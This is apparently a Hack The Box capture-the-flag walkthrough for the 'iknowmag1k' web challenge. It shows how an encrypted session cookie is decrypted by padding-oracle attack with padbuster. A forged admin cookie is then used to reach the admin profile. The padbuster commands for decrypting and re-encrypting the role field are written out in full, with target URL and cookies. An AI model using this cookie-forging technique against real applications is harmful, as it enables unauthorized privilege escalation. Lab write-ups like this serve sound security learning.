 # iknowmag1k challenge
## Walkthrough on how I did it.

**(The main goal: Can you get to the profile page of the admin?)**

**Step one - making an account and intercepthing what is going on**
I simply made a login and logged in while intercepting traffic using Burpsuite.
What I saw was while refreshing: docker.hackthebox.eu:PORT/profile.php - I saw 3 cookies:


1.Cookie:	PHPSESSID	3ol2uopq472ov8sigsbmolh9b3


2.Cookie:	__auc	68adfe0116782dca854895bb93b


3.Cookie:	iknowmag1k	q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D


This was the only thing the really stood out to me, since there was nothing else that seemed 'weird'.
After this I thought: "Hmmm, maybe I can decode this and find some sort of thing that can help me get to the admin page!"

**Step two - find out how to crack this cookie and figuring out what to do with it.**
So I googled for a bit and found out that this sort of cryptography is called oracle padding or something like that, and I quickly saw that it was possible to crack this with a tool called: 'padbuster'.
I googled padbuster and found some basic info on how to use this, and figured out I needed the PHPSESHSSID and the iknowmag1k cookie and the url.

$padbuster http://docker.hackthebox.eu:47167/profile.php q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D --cookies "PHPSESSID=3ol2uopq472ov8sigsbmolh9b3;iknowmag1k=q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D" 8 --encoding=0


**And here is what I got: **


**Finished:**

[+] Decrypted value (ASCII): {"user":"anders","role":"user"}


**So I figured:** "That's it! Now I just need to change the role from "user" to "admin", and then encode it again and send that as a response!"


**So that is what I did:**
$padbuster http://docker.hackthebox.eu:47167/profile.php q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D --cookies "PHPSESSID=3ol2uopq472ov8sigsbmolh9b3;iknowmag1k=q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D" 8 --encoding=0 --plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"


**Which gave me:**
** Finished **
[+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D
So I simply just changed the "iknowmag1k" cookie with the new one and then got the flag.
